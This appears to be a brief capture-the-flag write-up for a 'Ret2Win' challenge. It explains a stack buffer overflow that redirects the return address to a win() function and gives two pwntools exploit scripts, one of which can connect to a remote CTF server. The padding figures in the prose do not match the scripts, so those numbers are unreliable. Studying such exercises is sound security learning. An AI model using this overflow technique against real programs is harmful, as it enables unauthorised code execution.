 Ret2Win the binary
win() function is located somewhere else in the binary, not being called.

Solution: Overflow the return address and point it to the win() function.

Find the buffer (which was 64 characters) and then add 8. Reverse since it's little endian. (or just use pwntools)
```
from pwn import *            # This is how we import pwntools

p = process('./binary')        # We're starting a new process

payload = b'A' * 52
payload += p32(0x080491c3)   # Use pwntools to pack it

log.info(p.clean())          # Receive all the text
p.sendline(payload)

log.info(p.clean()) 
```

```
from pwn import *             

from pwn import *

# Set the architecture and OS context
context.update(arch='x86_64', os='linux')
context.terminal = ['/bin/bash', '-c']  # Use standard Linux terminal

# Remote target details
HOST = "nc chals.swampctf.com 40001"
ADDRESS, PORT = HOST.split()[1:]

# Load the binary
BINARY_NAME = "./binary"
binary = context.binary = ELF(BINARY_NAME, checksec=False)

# Determine if running locally or remotely
if args.REMOTE:
    p = remote(ADDRESS, int(PORT))
else:
    p = process(binary.path)

# Payload parameters
length = 10 + 8
win = binary.sym.win
payload = length * b'A' + p64(win)

# Send payload
p.sendline(payload)
p.interactive()

```
